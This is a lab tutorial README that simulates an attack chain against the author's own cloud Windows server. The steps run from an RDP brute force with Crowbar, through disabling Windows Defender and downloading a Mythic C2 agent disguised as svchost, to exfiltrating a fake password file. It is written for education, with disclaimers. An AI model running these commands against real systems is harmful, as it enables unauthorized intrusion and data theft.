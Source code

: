 # Day-21-Simulating-a-Brute-Force-Attack-with-Mythic-C2

In today’s guide, we will dive into an exciting exercise where we perform a brute force attack on a Windows server and generate our own Mythic agent to establish a Command and Control (C2) session. For this demonstration, we’ll use **Kali Linux**, **Mythic C2**, and a **Windows Server** hosted on Vultr’s cloud platform. By the end, you’ll have a complete walkthrough of the attack phases—from brute-forcing a password to executing payloads on a compromised Windows machine.

## Attack Phases

The guide is divided into six attack phases:

1. **Initial Access**
2. **Discovery**
3. **Defense Evasion**
4. **Execution**
5. **Command & Control**
6. **Exfiltration**

> **Disclaimer**: This tutorial is for educational purposes only. Do NOT attempt this on any system you don’t have permission to access. Engaging in unauthorized hacking activities can lead to legal consequences.

---

## Setting Up for the Attack

Before jumping into the action, let’s set up our environment. I’m using **Vultr** to host a Windows server, but you can use any cloud platform.

### Step 1: Create a Fake File on Windows Server

1. Log in to your Vultr account and open the Windows Server console.
2. Create a file called `passwords.txt` on the server’s desktop.
3. Write a fake password (e.g., `SuperSecret123!`) to simulate sensitive information.
4. Change the server password via Group Policy, reducing the minimum password character limit to 5, and update your password.

---

## Attack Walkthrough

### Phase 1: Initial Access — Brute Force Attack Using Kali Linux

#### Step 1: Setting Up the Target — Fake Password File

1. Log in to your Windows Server and create a file called `passwords.txt` on the desktop.
2. Write a fake password (e.g., `SuperSecret123!`).
3. Update the server’s password by allowing shorter passwords (minimum 5 characters).

#### Step 2: Prepare a Custom Wordlist in Kali Linux

1. Navigate to the wordlist directory:
    ```bash
    cd /usr/share/wordlists
    ```
2. Use the first 50 lines of the `rockyou.txt` wordlist to create a smaller list:
    ```bash
    head -50 rockyou.txt > /home/kali/phoenix-wordlist.txt
    ```
3. Edit the wordlist and insert the real password for proof of concept:
    ```bash
    nano /home/kali/phoenix-wordlist.txt
    ```

#### Step 3: Brute Force the Windows RDP Login

1. Install Crowbar, a brute-force tool for RDP:
    ```bash
    sudo apt-get install -y crowbar
    ```
2. Run Crowbar to brute force the RDP login:
    ```bash
    crowbar -b rdp -u Administrator -C /home/kali/phoenix-wordlist.txt -s [Windows-Server-IP]/32
    ```

### Phase 2: Discovery — Gathering Information on the Compromised Server

1. RDP into the Windows Server using `xfreerdp`:
    ```bash
    xfreerdp /u:Administrator /p:[Brute-Forced-Password] /v:[Windows-Server-IP]:3389
    ```
2. Execute basic discovery commands:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```

### Phase 3: Defense Evasion — Disabling Windows Defender

1. Open Windows Security and go to **Virus & Threat Protection**.
2. Turn off **Real-time protection**.

### Phase 4: Execution — Deploying the Mythic C2 Agent

#### Step 1: Install the Apollo Agent in Mythic

1. Install the Apollo agent:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicAgents/Apollo.git
    ```

#### Step 2: Install the HTTP C2 Profile

1. Install the HTTP C2 Profile:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicC2Profiles/http
    ```

#### Step 3: Generate the Payload

1. In Mythic’s GUI, generate a new payload for Windows using the HTTP C2 profile.

#### Step 4: Download the Payload via SSH

1. Download the payload with `wget`:
    ```bash
    wget [payload-url] --no-check-certificate
    ```

#### Step 5: Host the Payload on an HTTP Server

1. Serve the payload using Python HTTP server:
    ```bash
    python3 -m http.server 9999
    ```
2. Allow traffic through the firewall:
    ```bash
    sudo ufw allow 9999
    ```

#### Step 6: Download and Execute the Payload on Windows Server

1. Download the payload using PowerShell:
    ```powershell
    Invoke-WebRequest -Uri http://[Mythic-Server-IP]:9999/svchost-phoenixrocks.exe -Outfile "C:\Users\Public\downloads\svchost-phoenixrocks.exe"
    ```

2. Execute the payload:
    ```powershell
    .\svchost-phoenixrocks.exe
    ```

### Phase 5: Command & Control — Establishing a C2 Session

1. Confirm the callback in Mythic’s GUI.
2. Interact with the compromised server using Mythic.

### Phase 6: Exfiltration — Stealing the Fake Password File

1. Download the fake file using Mythic:
    ```bash
    download C:\Users\Administrator\Documents\passwords.txt
    ```

---

## Conclusion: Power and Responsibility

While this attack scenario demonstrates the power of tools like Mythic C2, remember to use this knowledge ethically and responsibly. Always have explicit permission before testing any system.

In the next blog, we’ll focus on defensive measures to detect and monitor Mythic C2 activities. Stay tuned!

---

### Safety Disclaimer

This guide is designed for educational purposes. Unauthorized access to computer systems is illegal and unethical. Use these skills to secure systems, not exploit them.

